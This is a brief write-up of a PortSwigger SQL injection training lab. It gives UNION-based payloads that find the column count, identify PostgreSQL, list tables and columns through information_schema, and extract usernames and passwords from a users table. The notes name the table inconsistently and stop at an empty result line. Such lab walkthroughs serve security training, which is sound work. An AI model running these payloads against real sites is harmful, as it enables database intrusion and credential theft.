


# Lab: SQL injection attack, listing the database contents on non-Oracle databases
url: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

# Overview:
- This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

- The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. 

# Analysis:
try:
GET /filter?category=Pets'+UNION+SELECT+NULL,NULL-- HTTP/2 to get actual number of columns

try:
@@version -> <error500>
try:
GET /filter?category=Pets'+UNION+SELECT+NULL,version()-- HTTP/2 to get actual number of columns
-> <PostgreSQL>

- PostgreSQL cheatsheet:
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

try:
'UNION SELECT table_name, NULL FROM information_schema.tables--

-> chose: user_tquduo

try:
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_tquduo'--

-> password_ztvoaa, username_qqywkt

try:
'UNION SELECT username_qqywkt,password_ztvoaa FROM users_tquduo--

-> Result:
